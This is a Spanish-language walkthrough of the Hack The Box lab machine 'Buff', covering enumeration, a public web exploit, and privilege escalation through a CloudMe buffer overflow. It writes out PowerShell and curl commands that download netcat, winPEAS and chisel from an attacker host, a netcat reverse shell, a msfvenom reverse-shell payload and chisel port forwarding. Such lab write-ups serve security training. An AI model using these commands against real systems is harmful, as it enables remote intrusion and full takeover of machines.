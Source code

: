 #  BUFF MACHINE

**Autor: Christian Jimenez**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/1.PNG)

## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```bash
nmap -p- --open -T5 - v -n 10.10.10.198 -oG allPorts
```

La salida nos muesta los sigueinets puertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/2.PNG)

Vamos a realizar una enumeracion de los servicios en los puertos:

```bash
nmap -p -sV -sC 10.10.10.198 -oN targeted
```

este es el resultado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/3.PNG)

## EXPLOTACION

Veamos la pagina web desde el navegador:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/4.PNG)

indagando un poco en el apartado **contact** nos dice el gestor de contenido y la version:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/5.png)

si lo buscamos en google damos con el siguiente enlace:

[https://www.exploit-db.com/exploits/48506](https://www.exploit-db.com/exploits/48506)

lo copiamos y cuando lo ejecutamos nos da una sesion interactiva:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/6.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/7.png)

```bash
python exploit.py http://10.10.10.198:8080/
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/8.png)


con powershell nos vamos a pasar netcat y vamos a establecer una reverse shell:

```bash
powershell -c "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.16:8000/nc.exe', 'C:\xampp\htdocs\gym\upload\nc.exe')"
```

**Nota**

**tambien puedes hacerlo con curl**

```bash
curl http://10.10.14.16:8000/nc.exe -o nc.exe
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/9.png)

nos mandamos una reverse shell a nuestra maquina Kali con previa escucha:

```bash
nc.exe -e cmd 10.10.14.18 4242 #WINDOWS

nc -lvnp 4242 #KALI
```
nos ponemos desde la maquina kali a la escuhca en ese puerto y tenemos una sesion, podemos ver la flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/10.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/11.png)

## ELEVACION DE PRIVILEGIOS

vamos a pasarnos el **winPEAS** para ver como podemos escalar privilegios porque no se encontro nada especial:

```bash
powershell -c "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.16:8000/winPEASx64.exe', 'C:\xampp\htdocs\gym\upload\winPEASx64.exe')"
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/12.png)

lo ejecutamos y vemos que tenemos permisos especiales un en programa llamado **CloudMe** es decir lo podemos correr como el usuario system, vamos a buscarlo en google para saber que es:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/13.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/14.png)

si buscamos sobre que puerto opera ese servicio:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/15.png)

```bash
searchsploit cloudme
```

vemos vulnerabilidades de Buffer Overflow, vamos a usar este en particular:

```bash
searchsploit -m
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/16.png)

vamos a usar el 44470, lo descargamos en nuestro equipo local y examinamos:

debemos generar una shellcode y lo manda al puerto 8888 de mnera local:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/17.png)

vamos agenerar la carga util: 

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.16 LPORT=4545 -f c
```

y lo reemplaamos.

ahora aqui hay un problema, tenemos un exploit para explotar el puerto 8888 el servicio de cloud a traves de un buffer overflow, pero es una explotacion local, podriamos pasar el python a la maquina windows y luego el exploit para escalar privilegios, como tiene permisos totales entrariamos como system. Pero mas sencilo es hacer **port forwarding** que es apuntar un puerto del equipo victima a nosotros. Es decir redireccionar todo lo que pase por el puerto 8888 de la maquina windows para que pase por el puerto 8888 u otro de nuestra maquina kali, de esta forma si lo explotamos con el script desde nuestro equipo nos dara conexion al puerto 8888 de la maquina windows. 

Para ello usaremos chisel, puedes descargar los compildos para windows y linux [aqui](https://github.com/jpillora/chisel/releases/tag/v1.7.6) funciona con un cliente (en este caso la maquina windows) y un servidor (la maquina kali):

pasamos **chisel.exe** a la maquina windows:

```bash
powershell -c "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.16:8000/chisel.exe', 'c:\Users\shaun\Downloads\chisel.exe')"
```

montmos el servidor en la maquina kali:

```bash
chmod +x chisel
./chisel server -p 8008 --reverse
```

establecemos el cliente en windows:

```bash
chisel.exe client 10.10.14.16:8008 R:8888:127.0.0.1:8888
```

si vemos en la maquina kali ya tenemos corriendo algo en el puerto 8888:

```bash
lsof -i:8888
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/18.png)

ahora vamos a ejecutar el script con nuestra shellcode y nos colocamos a la escucha en el puerto que establecimos:

```bash
python 44470.py 
```

kali:

```bash
rlwrap nc -lvnp 4545
```

y tenemos una conexion reverse como system:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/19.png)

podemos ver las flags:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/20.png)

**NOTA MENTAL**

#### exportar winpeas result

revisar bien la salida del winPEAS.

Exportarlo con:

```bash
winPEAS.exe cmd > output.txt
```

pasartelo a tu equipo por netcat u otro medio y abrirlo con more para verlo mejor:

```bash
cat output.txt | more
```
